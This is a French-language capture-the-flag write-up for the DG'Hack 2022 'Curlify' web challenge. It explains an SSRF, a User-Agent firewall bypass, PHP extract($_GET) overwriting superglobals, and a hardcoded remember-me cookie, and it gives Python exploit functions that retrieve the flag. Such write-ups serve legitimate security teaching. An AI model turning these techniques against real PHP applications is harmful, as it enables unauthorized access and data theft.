





# DGHACK 2022: Curlify
Hello, pour ce premier Write up de l'édition 2022 du DG'Hack on commence par un challenge Web!

## Introduction

Curlify était un challenge impliquant un mécanisme de SSRF plutôt intéressant, l'objéctif étant de lire le contenu du fichier `flag.php`.

## Premier aperçu

en arrivant sur la page web principale `index.php`, on arrive devant un input nous proposant de `"curlifier"` une url:

<div>
    
</div>

Cet input nous permettra de faire faire des requêtes `GET` (et uniquement `GET`) par le serveur.
Pour cela on effectue une requête `POST` sur `index.php` avec un paramètre `url` qui contiendra l'url que le serveur devra visiter.

 mais avant d'essayer cette fonctionalité on va jeter un oeil dans le code source pour y déceler de potentiels indices et bingo:


On y trouve une piste menant vers une page `dev.php`, en y accédant on se prend un gros stop dans les dents!

<div>
    
</div>

On fait ici face à une restriction IP, mais attention, ici nul besoin d' injecter des headers du type `X-Forwarded-For: 127.0.0.1`. Cette protection peut être facilement outrepassée en envoyant notre requête via le service mis à notre disposition, si on envoie:
```bash
http://127.0.0.1/dev.php
```
Dans le champ présent sur `index.php` on obtient bien la réponse à notre requête étant donné que la requête est effécutée par le serveur lui-même, on peut donc avoir accès aux endpoints nécessitant un accès interne!

<div>
    
</div>

Yes, on a un accès à une backup du code source du site on va pouvoir investiguer tout ca!

## Explication du code
On comprends vite que le code que l'on vient de récupérer provient correspond au code de l'endpoint `admin_panel` du site accessible et nous n'avons pas accès au code qui gère les requêtes que nouvs pouvons `curlifier`.
Le site comporte plusieurs scripts `php`, pas tous intéressant, voilà ce qu'on peut tirer des scripts principaux:

### index.php
Script principal de l'endpoint `admin_panel`, il permet à l'utilisateur de s'identifier dans l'`admin_panel`. On peut distinguer trois choses intéressantes:
```php
    if (isset($source)) {
        $path = realpath("/var/www/html/admin_panel/" . $source);
        if (strpos($path, "/var/www/html/admin_panel/") === 0 && !strpos($path, "flag.php")) {
            show_source("/var/www/html/admin_panel/" . $source);
            die();
        }
    }
```
Ce bout de code nous permet de lire n'importe quel fichier présent dans le dossier `admin_panel`, malheureusement pas moyen de lire le flag et pas non plus moyen de magouiller sur les chemins relatifs étant donné que la fonction `realpath` est utilisée.

```php
    if ($WAF_ENABLED)
        include_once "firewall.php";
```
On remarque qu'un pare-feu est utilisé, il nous faudra le bypasser.

<div>
    
</div>

Et finalement on remarque ceci:

```php
    extract($_GET);
```
La fonction `extract` va importer sous formes de variables chaque élément de l'array `_GET` dans le contexte de `index.php`.
Par exemple l'élément `$_GET['DEFAULT_LANGUAGE']` va être placé dans la variable `$DEFAULT_LANGUAGE`.


### firewall.php
Ce script va gérer le pare-feu utilisé dans `index.php`, voilà son fonctionnement:
```php
if (!preg_match("%(^DGHACK/1\.0 \(Curlify\)$)%", $_SERVER["HTTP_USER_AGENT"]))
    die('<div class="notification is-danger">Blocked by WAF !</div>');
```
Le pare-feu se base sur l'`User-Agent` du serveur et si il n'est pas égal à `DGHACK/1.0 (Curlify)`, la requête est abandonnée.

Etant donné que notre requête `GET` peut être transmise par l'intermédiaire du serveur lui-même, si on envoie une requête comme ceci:

```python
    # Envoi d'une requête sur admin_panel/index.php
    USER_AGENT = "DGHACK/1.0 (Curlify)"
    payload = "http://127.0.0.1/admin_panel/"
    url = "http://curlify3.chall.malicecyber.com/index.php"
    rep = session.post(url=url, headers={'User-Agent':USER_AGENT}, data={'url':payload})
```
Notre header `User-Agent`, sera transmis à l'endpoint `admin_panel` par l'intermédiaire de la variable `_SERVER['HTTP_USER_AGENT']`. On est donc bien en mesure de bypass le pare-feu!

### prefs.php

Lorsque l'utilisateur se connecte sur l'`admin_panel` il est possible de spécifier des préférences et notamment le langage à utiliser sur le site une fois connecté, et c'est là la principale vulnérabilité qui va nous permettre de lire le contenu du fichier `flag.php`! Voici pourquoi:
```php
// Dans prefs.php
function get_prefs($user, $prefs, $lang) {
    switch ($prefs) {
        case "fr-FR":
            include(__DIR__."/user_prefs/fr-FR.php");
            break;
        case "en-EN":
            include(__DIR__."/user_prefs/en-EN.php");
            break;
        case "us-US":
            include(__DIR__."/user_prefs/us-US.php");
            break;
        default:
            return file_get_contents(__DIR__."/user_prefs/$lang");
    }
}
// Dans index.php
$_SESSION["user_prefs"] = get_prefs($userinfo["username"], $_SERVER["HTTP_ACCEPT_LANGUAGE"], $DEFAULT_LANGUAGE);
```
Si la variable `$_SERVER['HTTP_ACCEPT_LANGUAGE']` n'est pas une valeur de langue valide et si la variable `$DEFAULT_LANGUAGE` est égale à `flag.php`, alors la langue préférée de l'utilisateur sera:
```php
file_get_contents("/var/www/admin_panel/user_prefs/flag.php")
```
### task.php
Ce script, quant à lui permettait à l'administrateur d'assigner des tâches aux autres utilisateurs et c'est lui qui va nous permettre de récupérer le flag! Voyez donc:
```php
    if ($_SESSION["userid"]) {
        $content .= "UserId: " . $_SESSION["userid"] . "\n";
        if ($_SESSION["user_prefs"]) $content .= "Preferences: " . $_SESSION["user_prefs"] . "\n";
```
Chaqe tâche assignée par l'administrateur crée un ticket qui contient les informations de l'utilisateur qui effectue la requête avec notamment ses préférences qui normalement contiendra le flag comme expliqué précédemment.

## Exploitation

Ca y'est on va commencer à exploiter le site pour arriver à nos fins!


* On envoie le serveur faire une requête sur `admin_panel` pour nous connecter en tant qu'admin et on met notre langage préféré à la valeur `flag.php`.
* On assigne une tâche en tant qu'admin, cette tâche contiendra la liste de nos préférences et donc de notre langage.
* On récupère le flag grâce au ticket associé à notre tâche et qui sera généré sur un endpoint aléatoire auquel nous aurons accès.

### Connection en tant qu'admin

La principale difficulté pour se connecter en tant qu'admin est que les différents paramètres pour effectuer cette connexion sont envoyés via une requête `POST`, or notre service qui nous donnne accès aux endpoints internes du site web ne nous permet que de:
- Faire des requêtes `GET`.
- transmettre des headers pour ces dites requêtes.

Mais comme spécifié précédemment une des vulnérabilité que présente ce site est l'usage de la fonction `extract` sur le tableau `_GET`, si l'on passe un tableau nommé `_POST` via une requête `GET`, il est possible de d'assigner des valeurs au tableau `_POST` dans le script `admin_panel/index.php` comme si une requête `POST` légitime avait été faite dessus! `PHP` permet d'interpréter un tableau passé dans l'url comme ceci:
```bash
http://site.com?_POST[username]=username&_POST[password]=password
```
Mais ce n'est pas la simple embûche pour se connecter en tant qu'admin!
Il nous faut au choix:
- Des identifiants valides
- Un cookie valide

La deuxième options parait la plus simple, et en effet une erreur de code dans la fonction `generate_remember_me_cookie` nous est d'une grande utilité:
```php
function generate_remember_me_cookie($user) {
    return $user.md5('$SECRET_KEY');
}
```
Ici, l'usage des guillemets simples empêche l'interpolation da la clé secrête ce qui fait que le `hash` sera toujours le même et un cookie valide pour l'utilisateur admin sera:
```bash
admin7a988e11680f9e151f6f46808690d5ca
```
Deux derniers détails, pour que le script `task.php` accepte d'ajouter les préférences dans le ticket, il faut que la variable `$_SESSION['UserId']` soit set à 1.
Il n'est pas possible de changer la variable `$_SERVER['HTTP_ACCEPT_LANGUAGE']` en utilisant les headers car j'avais pensé dans un premier temps à utiliser le header `Accept-Language` pour influer sur cette variable.

C'est deux problèmes se règlent donc de la même manière et avec la même technique que nouvs avons utilisé pour changer le tableau `_POST`: On passe deux tableaux appelés respectivement `_SESSSION` et `_SERVER` dans les paramètres de la requêtes `GET` et ils seront extraits par l'appel à la fonction `extract($_GET)`. Finalement la fonction python pour se connecter en tant qu'admin:
```python
USER_AGENT = "DGHACK/1.0 (Curlify)"

def connect_via_cookie_ask_flag(session):
    payload = "http://127.0.0.1/admin_panel/?_POST[username]=admin&_COOKIE[remember_me]=admin7a988e11680f9e151f6f46808690d5ca&DEFAULT_LANGUAGE=flag.php&_SESSION[userid]=12&_SERVER[HTTP_ACCEPT_LANGUAGE]=aaa"
    url = "http://curlify3.chall.malicecyber.com/index.php"
    rep = session.post(url=url, headers={'User-Agent':USER_AGENT}, data={'url':payload})
    return rep.text
```
Résultat:

<div>
    
</div>

### Création d'une tâche

Une fois qu'on a établie une session en tant qu'administrateur il devient trivial d'assigner une tâche dont le ticket contiendra le flag, on peut le faire manuellement:

<div>
    
</div>

Mais étant donné que les tickets créés se suppriment au bout de 15 seconds on préférera lier cette partie de l'exploitation dans notre script python:
```python
def ask_for_a_task(session):
    url = "http://curlify3.chall.malicecyber.com/admin_panel/task.php"
    rep = session.post(url=url, data={'author':'admin', 'assignee':'admin', 'type':'bug', 'description':'nice description'})
    return rep.text
```
Et hop plus qu'à aller le récupérer ;)

<div>
    
</div>

### Obtention du ticket contenant le flag

La dernière carabistouille proposée par ce challenge était le fait que les endpoints contenant les tickets renvoyaient un `403` pour les requêtes venant de l'extérieur. Pour régler cela il nous faut juste utiliser une dernière fois le service `curlify` pour envoyer le serveur chercher let ticket pour nous:
```python
def search_for_task_file(session, filenum):
    url = "http://curlify3.chall.malicecyber.com/index.php"
    payload = "http://127.0.0.1/admin_panel/tasks/task_%s.txt" % filenum
    rep = session.post(url=url, headers={'User-Agent':USER_AGENT}, data={'url':payload})
    return rep.text
```
Et voilà!


## Conclusion
Ce challenge web a été un de mes préférés de cette édition du DG'Hack et ce, pour plusieurs raisons, il exploitait un mécanisme de `PHP` que je ne connaissais pas en passant par l'usage abusif de la fonction `extract` ainsi que de la possibilité de passer des tableaux entiers dans les paramètres de requêtes `GET`. Et il faisait aussi référence à d'autres mauvaises pratiques de `PHP` comme l'usage des simples guillemets lors de l'inteprolation de variables.
